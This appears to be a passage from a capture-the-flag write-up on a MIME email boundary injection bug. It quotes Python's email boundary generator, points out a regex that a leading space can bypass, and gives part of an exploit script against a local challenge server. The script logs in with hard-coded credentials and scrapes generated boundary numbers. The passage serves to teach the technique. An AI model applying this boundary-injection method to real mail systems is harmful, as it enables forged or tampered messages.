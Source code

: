 ```python
 def _make_boundary(cls ,text=None):
        # Craft a random boundary.  If text is given, ensure that the chosen
        # boundary doesn't appear in the text.
        token = random.randrange(sys.maxsize)
        boundary = ('=' * 15) + (_fmt % token) + '=='
        if text is None:
            return boundary
        b = boundary
        counter = 0
        while True:
            cre = cls._compile_re('^--' + re.escape(b) + '(--)?$', re.MULTILINE)
            if not cre.search(text):
                break
            b = boundary + '.' + str(counter)
            counter += 1
        return b
```python
cre = cls._compile_re('^--' + re.escape(b) + '(--)?$', re.MULTILINE)
```
- This regrex just check the '--' start at the beginning, a space can bypass ? And the parser will still understand...(ned audit too..) 
- HERE WE GET ITTTTTT !!!!!
![image](https://hackmd.io/_uploads/S19CeZeTJx.png)

### FINAL SCRIPT 
```python
import requests 
import sys
import re
import base64
s = requests.Session()
url = "http://localhost:8001"

data    = { 
    "username":"user@ses",
    "password":"50d93cda66e45ffc3c57623a14af2cc7"
}


res=  requests.post(url+'/api/login',json=data)
clean_hex = res.text.strip('"')  # Remove surrounding quotes
headers = { 
    'Token': clean_hex
}
print(res.text)
def encode_base64(text):
    encoded_bytes = base64.b64encode(text.encode('utf-8'))
    return f'=?utf-8?B?{encoded_bytes.decode()}?='
boundary = "===============adminone=="
def get_boundary(s) -> int:
    data = {
        "to": "user@ses",
        "subject": 'hi',
        "body": "faewfef"
    }
    res  = s.post(url+'/api/send',json = data,headers=headers)
    print(res.text)
    a = res.text.strip('"')  # Remove surrounding quotes
    res  = s.get(url+'/api/email/'+a,json = data,headers=headers)
    boundary = re.findall(r"===============(\d+)==",res.json().get('data'))[0]
    return int(boundary)

```